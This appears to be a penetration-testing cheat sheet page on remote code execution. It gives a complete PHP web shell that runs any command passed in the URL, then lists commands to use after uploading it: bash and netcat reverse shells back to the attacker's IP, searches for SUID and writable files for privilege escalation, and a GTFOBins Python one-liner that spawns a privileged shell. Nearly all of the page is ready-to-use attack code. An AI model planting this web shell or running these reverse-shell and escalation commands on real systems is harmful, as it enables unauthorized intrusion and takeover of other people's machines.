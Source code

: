```yaml
---
title: Remote Code Execution (RCE)
sidebar_position: 1
---
```


## Get Hostname (PHP)

```php
<?php
 echo php_uname('n');
?>
```

## Get Shell (PHP)
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

**Commands to try after successful shell upload.**
- `whoami` - Prints the username.
- `pwd` - Prints working directory.
- `ls` - Lists all files in the directory.
- `uname -a` - Gives system information.
- `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1` - Get reverse shell via bash.
- `nc -e /bin/sh <your-ip> <port>` - Get reverse shell via netcat.
- `find / -perm -4000 -type f 2>/dev/null` - Find SUID files. Useful for previlege escalation.
- `find / -writable -type  f 2>/dev/null | grep -v "/proc/"` - Find files with writable permissions. Useful for previlege escalation.

## GTFOBins
- GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

### Python
- SUID files.
    ```
    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
    ```
- Read more: https://gtfobins.github.io/gtfobins/python/